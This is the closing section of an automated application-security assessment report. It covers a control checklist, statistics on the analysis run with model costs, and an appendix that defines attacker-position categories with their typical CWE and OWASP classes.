- **AI** — Not applicable for all components: <a id="tc-ai-01"></a>TC-AI-01 Untrusted content cannot steer the model into privileged actions, <a id="tc-ai-02"></a>TC-AI-02 Model output is validated before it reaches interpreters, browsers, or structured sinks, <a id="tc-ai-03"></a>TC-AI-03 Model-selected tools, objects, and destinations are authorized and restricted, <a id="tc-ai-04"></a>TC-AI-04 Retrieval and memory respect the caller's access, <a id="tc-ai-05"></a>TC-AI-05 The model cannot be made to act or disclose beyond what the caller may
- **Infra** — No finding, no control: <a id="tc-infra-02"></a>TC-INFRA-02 Data and admin services are not publicly exposed; Not examined: <a id="tc-infra-03"></a>TC-INFRA-03 Service identities and cloud permissions follow least privilege
- **SupplyChain** — Not applicable: <a id="tc-supply-02"></a>TC-SUPPLY-02 Dependencies are updated automatically; No finding, no control: <a id="tc-supply-03"></a>TC-SUPPLY-03 Install and build scripts cannot run untrusted code; Not examined: <a id="tc-ci-02"></a>TC-CI-02 Untrusted event data and forks cannot execute in privileged workflows
- **DevTooling** — No finding, no control: <a id="tc-devagent-01"></a>TC-DEVAGENT-01 Coding agents run sandboxed and with approvals; Not applicable: <a id="tc-devagent-02"></a>TC-DEVAGENT-02 Agent tools, MCP servers, hooks, and permission rules are not auto-trusted or over-broad

---

## Appendix: Run Statistics

| Field | Value |
|----------|----------------------|
| Command | `appsec-analyzer assess --hard-budget 30.0 --assessment-depth thorough --trust-mode untrusted` |
| Code | `d45ba3c4e` with local changes on `master` |
| Duration | 34m 34s |
| Model time | 58m 26s across parallel calls |

### Per-Stage Breakdown

| Stage | Model | Calls | Tokens | Cost (≈ USD) | Model time |
|----------------|----------------------|--------:|--------:|------------:|----------:|
| Reconnaissance | claude-sonnet-5-5 | 2 | 28k | 0.05 | 0m 18s |
| Architecture | claude-sonnet-5-5 | 3 | 76k | 0.15 | 0m 38s |
| Trust Boundaries | claude-sonnet-5-5 | 1 | 64k | 0.13 | 0m 40s |
| Controls | claude-sonnet-5-5 | 4 | 61k | 0.17 | 0m 55s |
| Survey | claude-opus-5-5 | 17 | 1.5M | 6.00 | 28m 31s |
| Verify | claude-opus-5-5 | 8 | 521k | 2.30 | 9m 36s |
| Evidence review | claude-sonnet-5-5 | 23 | 745k | 1.66 | 10m 02s |
| Scan Synthesis | claude-opus-5-5, claude-sonnet-5-5 | 11 | 294k | 1.27 | 5m 03s |
| Finalization | claude-sonnet-5-5 | 15 | 313k | 0.76 | 2m 39s |
| **Total** |  | **84** | **3.6M** | **12.49** | **58m 26s** |

### Tokens by model

| Model | Calls | Uncached | Cache write | Cache read | Output | Cost (≈ USD) |
|-----------------|--------:|--------:|-----------:|----------:|--------:|------------:|
| claude-opus-5-5 | 29 | 173k | 677k | 1.1M | 244k | 9.17 |
| claude-sonnet-5-5 | 55 | 74k | 787k | 457k | 116k | 3.32 |
| **Total** | **84** | **247k** | **1.5M** | **1.6M** | **360k** | **12.49** |

*Costs are estimates at API list prices. A subscription bills differently.*

### Contribution of analysis steps

Source anchors count locations, not independent weaknesses. Different anchors can describe the same problem. Semantic novelty and missing measurements are shown as unknown. Review confirmations do not establish an executed attack.

| Step | Additional locations | Repeated locations | New distinct problems | Stronger evidence | Contradictions | Recorded cost (USD) |
|---------------|--------------------:|------------------:|---------------------:|-----------------:|--------------:|-------------------:|
| Survey | 88 | unknown | unknown | unknown | unknown | 1.04 |
| Verification | 8 | 14 | unknown | unknown | unknown | 2.30 |
| Evidence review | unknown | unknown | 0 | 122 | 3 | 1.66 |
| Abuse cases | 1 | unknown | unknown | 1 | 0 | 0.37 |

Verification is compared with the original survey, including locations preserved inside consolidated findings. Abuse cases are compared with the findings immediately before their checks. Evidence review counts its recorded decisions. Costs include charged failed attempts when the run can attribute them; subscription use or unavailable accounting is unknown.

---

<a id="appendix-a-vektor-taxonomy"></a>
## Appendix A — Attack Vector Taxonomy

This appendix defines the attacker-starting-position labels used in the Top Threats table and throughout [§8 Findings Register](#8-findings-register). Each label answers the question *what does the attacker need before the exploit begins?*

<a id="vektor-internet-anon"></a>
### Internet Anon

**Attacker position:** Unauthenticated attacker from the public internet · **Breach distance:** 1

**Preconditions:**

- Endpoint is reachable from the internet (no IP allowlist, no VPN)
- No authentication middleware blocks the request

**Typical CWEs:** [CWE-89](https://cwe.mitre.org/data/definitions/89.html) · [CWE-79](https://cwe.mitre.org/data/definitions/79.html) · [CWE-306](https://cwe.mitre.org/data/definitions/306.html) · [CWE-327](https://cwe.mitre.org/data/definitions/327.html) · [CWE-611](https://cwe.mitre.org/data/definitions/611.html) · [CWE-918](https://cwe.mitre.org/data/definitions/918.html)

**Typical OWASP Top 10:** A01:2025, A05:2025, A07:2025

<a id="vektor-internet-user"></a>
### Internet User

**Attacker position:** Any authenticated low-privilege user (valid JWT / session) · **Breach distance:** 2

**Preconditions:**

- Attacker has signed up or otherwise obtained a valid user session
- Endpoint is behind auth but not behind role/admin checks

**Typical CWEs:** [CWE-434](https://cwe.mitre.org/data/definitions/434.html) · [CWE-611](https://cwe.mitre.org/data/definitions/611.html) · [CWE-918](https://cwe.mitre.org/data/definitions/918.html) · [CWE-352](https://cwe.mitre.org/data/definitions/352.html) · [CWE-287](https://cwe.mitre.org/data/definitions/287.html)

**Typical OWASP Top 10:** A01:2025, A06:2025, A02:2025

<a id="vektor-internet-priv-user"></a>
### Internet Priv User

**Attacker position:** Authenticated admin-level user (JWT with admin role or equivalent) · **Breach distance:** 2

**Preconditions:**

- Attacker holds admin credentials or has elevated privileges
- Endpoint gated on admin role but still exploitable once reached

**Typical CWEs:** [CWE-862](https://cwe.mitre.org/data/definitions/862.html) · [CWE-79](https://cwe.mitre.org/data/definitions/79.html) · [CWE-94](https://cwe.mitre.org/data/definitions/94.html)

**Typical OWASP Top 10:** A01:2025

<a id="vektor-victim-required"></a>
### Victim-Required

**Attacker position:** Attacker needs victim interaction - social engineering, crafted link, or live session · **Breach distance:** 2

**Preconditions:**

- Victim must click a link, load a page, or have an active session
- Applies to XSS, CSRF, click-jacking, open redirect

**Typical CWEs:** [CWE-79](https://cwe.mitre.org/data/definitions/79.html) · [CWE-352](https://cwe.mitre.org/data/definitions/352.html) · [CWE-601](https://cwe.mitre.org/data/definitions/601.html) · [CWE-1021](https://cwe.mitre.org/data/definitions/1021.html)

**Typical OWASP Top 10:** A01:2025, A05:2025

<a id="vektor-build-time"></a>
### Build-Time

**Attacker position:** Attacker controls a build input - CI runner, dependency, base image, or external data fetched during build · **Breach distance:** 3

**Preconditions:**

- Compromise of a dependency, registry, or base image
- OR compromise of a CI runner with write access to artifacts

**Typical CWEs:** [CWE-506](https://cwe.mitre.org/data/definitions/506.html) · [CWE-829](https://cwe.mitre.org/data/definitions/829.html) · [CWE-1039](https://cwe.mitre.org/data/definitions/1039.html) · [CWE-1104](https://cwe.mitre.org/data/definitions/1104.html)

**Typical OWASP Top 10:** A08:2025

<a id="vektor-repo-read"></a>
### Repo-Read

**Attacker position:** Attacker gains read access to source repository (leaked clone, forked fork, insider, compromised developer workstation) · **Breach distance:** 3

**Preconditions:**

- Read access to the source tree at or after commit time
- No runtime exploit needed - the vulnerability is the content of the repo

**Typical CWEs:** [CWE-798](https://cwe.mitre.org/data/definitions/798.html) · [CWE-312](https://cwe.mitre.org/data/definitions/312.html) · [CWE-540](https://cwe.mitre.org/data/definitions/540.html)

**Typical OWASP Top 10:** A04:2025, A07:2025

<a id="vektor-n-a"></a>
### Architectural (no runtime entry point)

**Attacker position:** Architectural / meta-finding - no runtime entry point, the finding describes a design defect aggregating multiple code-level findings

**Preconditions:**

- Finding is AF-NNN (architectural) rather than F-NNN (code-level)